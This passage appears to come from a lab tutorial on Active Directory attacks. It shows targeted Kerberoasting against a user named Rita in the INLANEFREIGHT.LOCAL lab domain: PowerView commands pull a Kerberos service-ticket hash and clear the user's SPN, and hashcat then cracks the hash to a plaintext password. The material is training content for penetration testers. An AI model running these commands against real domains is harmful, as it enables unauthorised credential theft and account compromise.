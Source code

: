 #### Getting the Rita's Hash

```powershell
PS C:\Tools> $User = Get-DomainUser Rita
PS C:\Tools> $User | Get-DomainSPNTicket | Select-Object -ExpandProperty Hash

$krb5tgs$23$*Rita$INLANEFREIGHT.LOCAL$nonexistent/BLAHBLAH*$D4A950150D67A999192B12391DF13964$51114AA3599DA07F692CEB45<SNIP>

```

#### Clearing the SPNs of Rita

```powershell
PS C:\Tools> Set-DomainObject -Identity Rita -Clear serviceprincipalname -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=Rita)(name=Rita)(displayname=Rita))))
VERBOSE: [Set-DomainObject] Clearing 'serviceprincipalname' for object 'Rita'

```

Once we obtain the hash, we can use `hashcat` to crack it, utilizing hash-mode `13100` ( `Kerberos 5, etype 23, TGS-REP`):

#### Cracking the Kerberoastable Hash

```shell
hashcat -m 13100 /tmp/rita.hash /usr/share/wordlists/rockyou.txt --force

hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Host memory required for this attack: 99 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$krb5tgs$23$*Rita$INLANEFREIGHT.LOCAL$inlanefreight.local/Rita*$b5fe2a905a7a7fa71483ddeb4b3aff57$<SNIP>76ec6d19959920e311fd6cb6008ea4b34f:Password123

Session..........: hashcat
Status...........: Cracked
```